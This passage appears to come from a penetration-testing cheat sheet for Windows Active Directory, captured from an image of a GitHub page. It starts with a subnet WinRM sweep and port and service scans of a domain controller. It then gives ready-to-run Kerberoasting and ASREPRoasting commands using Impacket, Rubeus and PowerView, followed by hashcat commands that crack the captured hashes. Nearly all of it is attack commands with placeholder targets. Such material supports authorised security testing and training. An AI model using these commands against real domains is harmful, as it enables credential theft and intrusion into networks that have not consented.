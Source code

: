 ```bash
crackmapexec winrm SUBNET/24
```

#### **Windows:**
```powershell
# Port Scanning
Test-NetConnection -ComputerName DC_IP -Port 88,135,139,389,445,464,593,636,3268,3269,5985,9389

# Service Discovery
Get-Service -ComputerName DC_IP | Where-Object {$_.Status -eq "Running"}
Get-WmiObject -Class Win32_Service -ComputerName DC_IP | Where-Object {$_.State -eq "Running"}
```

---

## 🔓 **Credential Attacks**

### **1. Kerberoasting**

#### **Linux:**
```bash
# Impacket
GetUserSPNs.py -dc-ip DC_IP domain.com/username:password -request
GetUserSPNs.py -dc-ip DC_IP domain.com/username:password -request -outputfile kerberoast_hashes.txt

# Crack with hashcat
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
```

#### **Windows:**
```powershell
# Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.txt
.\Rubeus.exe kerberoast /user:serviceaccount /outfile:hashes.txt

# PowerView
Get-DomainUser -SPN | select samaccountname,serviceprincipalname
Request-SPNTicket -SPN "HTTP/web.domain.com"
```

### **2. ASREPRoasting**

#### **Linux:**
```bash
# Impacket
GetNPUsers.py -dc-ip DC_IP domain.com/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt
GetNPUsers.py -dc-ip DC_IP domain.com/username:password -request

# Crack with hashcat
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```
